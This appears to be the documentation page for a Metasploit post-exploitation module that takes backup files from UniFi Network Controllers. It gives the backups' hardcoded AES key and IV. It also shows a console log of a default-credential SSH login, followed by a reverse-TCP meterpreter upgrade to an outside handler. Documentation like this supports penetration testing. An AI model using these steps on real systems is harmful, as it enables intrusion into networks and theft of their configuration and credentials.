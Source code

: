 ## Vulnerable Application

  This module works against UniFi Network Controller (`5.10.19`-`5.10.23` confirmed, most likely others), to download any backup and
  autobackup files (.unf extension).  These files are AES encrypted zip files which use the IV `ubntenterpriseap` and
  key `bcyangkmluohmars`.  The unf zip file is then decrypted, however it contains an error in the file.  Utilizing
  `zip -FF` the file can be repaired and opened (some reports say 7zip can open the errored file).  If `zip` is
  available on the system, this operation is performed and the result saved to loot as well.

  Due to the potential large file sizes of the backups, meterpreter is greatly encouraged over a shell.

  This work is based on zhangyoufu's [unifi-backup-decrypt](https://github.com/zhangyoufu/unifi-backup-decrypt)
  and justingist's [POSH-Ubiquiti](https://github.com/justingist/POSH-Ubiquiti/blob/master/Posh-UBNT.psm1).  

### Install Instructions

  1. Download the file from https://www.ui.com/download/unifi (Java required on Windows)
  2. Install with default parameters
  3. Login to `https://localhost:8443/manage` and click the gear icon in the bottom left
  4. Select `Maintenance` then click `DOWNLOAD BACKUP` to create the backup file.

## Verification Steps

  1. Install the application
  2. Get a shell
  3. Do: ```use post/multi/gather/ubiquiti_unifi_backup```
  4. Do: ```set session #```
  5. Do: ```run```

## Scenarios

### Ubiquiti Unifi Controller 5.10.19 (Build: atag_5.10.19_11646) on Ubuntu 18.04

#### Initial Access

```
[*] Processing unifi.rb for ERB directives.
resource (unifi.rb)> use auxiliary/scanner/ssh/ssh_login
resource (unifi.rb)> set username unifi
username => unifi
resource (unifi.rb)> set password unifi
password => unifi
resource (unifi.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unifi.rb)> run
[+] 2.2.2.2:22 - Success: 'unifi:unifi' 'uid=1000(unifi) gid=1000(unifi) groups=1000(unifi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare) Linux unifi 4.18.0-16-generic #17~18.04.1-Ubuntu SMP Tue Feb 12 13:35:51 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:33389 -> 2.2.2.2:22) at 2019-03-10 15:58:18 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (unifi.rb)> sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 1.1.1.1:4433 
[*] Sending stage (985320 bytes) to 2.2.2.2
```